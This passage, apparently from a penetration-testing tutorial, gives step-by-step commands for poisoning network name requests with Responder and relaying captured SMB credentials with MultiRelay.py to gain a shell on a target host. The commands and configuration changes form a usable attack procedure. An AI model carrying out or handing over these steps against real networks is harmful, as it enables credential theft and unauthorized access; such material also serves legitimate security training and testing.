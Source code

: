 2. Test with:

```text
# cd /usr/share/responder/tools
# python3 MultiRelay.py
```

3. For this attack to work with SMB, SMB signing has to be disabled on the target. Usually it is disabled, but this can be checked using the nmap [smb-security-mode](https://nmap.org/nsedoc/scripts/smb-security-mode.html) script:

```text
# nmap -p445 --script=smb-security-mode <target IP address>
```

4. The MultiRelay script uses HTTP and SMB ports. To prevent conflicts, turn these servers off in the 
`/usr/share/responder/responder.conf` file.

```text
SMB = Off
HTTP = Off
```

5. If SMB signing is disabled, run MultiRelay with (`-t`) to specify the target and (`-u`) to specify users to relay (forward) to. Choose selectively to create minimal noise in the network.

```text
# python3 MultiRelay.py -t <target IP address> -u ALL -d
```

6. In another terminal, use `ifconfig` to find NIC <interface> of attack machine for running responder.
7. Run responder:

```text
# responder -I <interface> -rv
```
8. Wait for a connection: Hopefully, someone mistypes trying to open a shared drive (a drive that does not exist). Responder intervenes and poisons the request. SMB relaying is now setup in `MultiRelay.py`, and the credential is forwarded to the <target IP address> and we have gained a shell on it.

